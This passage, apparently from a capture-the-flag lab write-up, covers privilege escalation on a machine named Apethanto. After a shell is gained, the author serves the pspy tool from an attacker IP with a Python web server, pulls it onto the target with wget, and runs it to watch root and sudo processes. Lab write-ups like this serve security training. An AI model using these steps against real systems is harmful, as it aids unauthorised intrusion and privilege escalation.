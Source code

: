 We now have a shell as the `metabase` user. The user flag can be found at `/home/metabase/user.txt`.



# Privilege Escalation

Looking around the system as the `metabase` user, we can't find any valuable information that will help us to escalate our privileges except from the fact that our user belongs to the `sudo` group.

```bash
metabase@Apethanto:/tmp$ id

uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```

Unfortunately, we don't know the password for this user. We decide to upload and use [pspy](https://github.com/DominicBreuker/pspy) on the remote machine to check if there are any crons running on the remote machine. First of all, we download the `pspy64s` binary from the `Releases` page and set up a Python web server on our machine.

```bash
python3 -m http.server 80
```

Then, we download the file from the remote machine and make it executable.

```bash
cd /tmp
wget 10.10.14.59/pspy64s
chmod +x pspy64s
```

Finally, we execute `pspy64s` and monitor the output.

```bash
./pspy64s
```

After a short while we get the following output:

```bash
2023/11/13 07:22:33 CMD: UID=998  PID=3924   | -bash 
2023/11/13 07:22:33 CMD: UID=0    PID=3923   | sh -c /bin/stty sane < /dev/pts/1 
2023/11/13 07:22:33 CMD: UID=0    PID=3922   | /usr/bin/expect /root/interact.exp 
2023/11/13 07:22:33 CMD: UID=0    PID=3925   | 
2023/11/13 07:22:33 CMD: UID=998  PID=3926   | -bash 
2023/11/13 07:22:33 CMD: UID=998  PID=3927   | id -u 
2023/11/13 07:22:33 CMD: UID=998  PID=3928   | 
2023/11/13 07:22:33 CMD: UID=998  PID=3929   | sudo apt update 
2023/11/13 07:22:33 CMD: UID=0    PID=3930   | apt update 
```

It seems like our user is running `apt update` using `sudo`. If we check the output from `ps -e` we can see another TTY terminal in use.

```
5203 pts/2    00:00:00 sudo
5206 pts/2    00:00:00 bash
```
